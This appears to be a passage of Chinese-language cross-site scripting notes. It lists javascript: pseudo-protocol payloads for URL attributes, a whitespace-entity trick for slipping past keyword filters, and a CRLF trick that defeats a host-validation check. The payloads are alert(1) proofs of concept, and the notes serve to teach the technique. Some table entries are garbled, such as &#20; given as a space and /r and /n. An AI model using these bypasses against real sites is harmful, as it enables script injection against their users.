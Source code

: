 ### JavaScript伪协议

> 在需要指定URL的标签属性中插入JS代码

```html
<a href=javascript:alert(1)>click me</a>
<iframe src="javascript:alert(1)"></iframe>
<form action="javascript:alert(1)">
<object data="javascript:alert(1)">
<button formaction="javascript:alert(1)">click me</button>
```

**过滤，关键词插入空白字符绕过**

```html
<a href=java&#13script&#9:alert(1)>click me</a>
```

| 代码      | 字符       |
| --------- | ---------- |
| \&#13;    | 换行       |
| \&#9;     | Tab        |
| \&#20;    | 空格       |
| \&nbsp;   | 不换行空格 |
| \&ensp;   | En空格     |
| \&emsp;   | Em空格     |
| \&thinsp; | 窄空格     |

**校验host是否为合法域名**

```
javascript://example.com/%0d%0aalert(1)
```

| 代码 | 字符 |
| ---- | ---- |
| %0d  | /r   |
| %0a  | /n   |

> //example.com/被当做注释代码

### 编码绕过

> 根据不同位置数据使用不同编码

### 绕过长度限制

```html
<input value="$var" />
```
